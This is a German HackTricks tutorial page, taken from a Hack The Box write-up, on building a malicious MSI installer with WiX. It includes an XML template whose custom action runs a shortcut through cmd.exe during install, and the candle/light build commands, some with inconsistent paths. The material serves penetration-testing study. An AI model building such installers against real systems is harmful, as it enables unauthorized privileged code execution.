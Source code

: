 {{#include ../../banners/hacktricks-training.md}}

# Erstellen eines bösartigen MSI und Erlangen von Root

Die Erstellung des MSI-Installers erfolgt mit wixtools, insbesondere wird [wixtools](http://wixtoolset.org) verwendet. Es ist erwähnenswert, dass alternative MSI-Builder ausprobiert wurden, aber in diesem speziellen Fall nicht erfolgreich waren.

Für ein umfassendes Verständnis der Beispiele zur Verwendung von wix MSI ist es ratsam, [diese Seite](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with) zu konsultieren. Hier finden Sie verschiedene Beispiele, die die Verwendung von wix MSI demonstrieren.

Ziel ist es, ein MSI zu generieren, das die lnk-Datei ausführt. Um dies zu erreichen, könnte der folgende XML-Code verwendet werden ([xml von hier](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)):
```markup
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```
Es ist wichtig zu beachten, dass das Package-Element Attribute wie InstallerVersion und Compressed enthält, die die Version des Installers angeben und angeben, ob das Paket komprimiert ist oder nicht.

Der Erstellungsprozess umfasst die Verwendung von candle.exe, einem Tool von wixtools, um ein wixobject aus msi.xml zu generieren. Der folgende Befehl sollte ausgeführt werden:
```
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```
Zusätzlich ist es erwähnenswert, dass im Beitrag ein Bild bereitgestellt wird, das den Befehl und seine Ausgabe zeigt. Sie können es zur visuellen Anleitung heranziehen.

Darüber hinaus wird light.exe, ein weiteres Tool von wixtools, verwendet, um die MSI-Datei aus dem wixobject zu erstellen. Der auszuführende Befehl lautet wie folgt:
```
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```
Ähnlich wie beim vorherigen Befehl ist ein Bild im Beitrag enthalten, das den Befehl und seine Ausgabe veranschaulicht.

Bitte beachten Sie, dass diese Zusammenfassung wertvolle Informationen bieten soll, es jedoch empfohlen wird, sich auf den ursprünglichen Beitrag zu beziehen, um umfassendere Details und genaue Anweisungen zu erhalten.

## References

- [https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)
- [https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with)
[wixtools](http://wixtoolset.org)

{{#include ../../banners/hacktricks-training.md}}
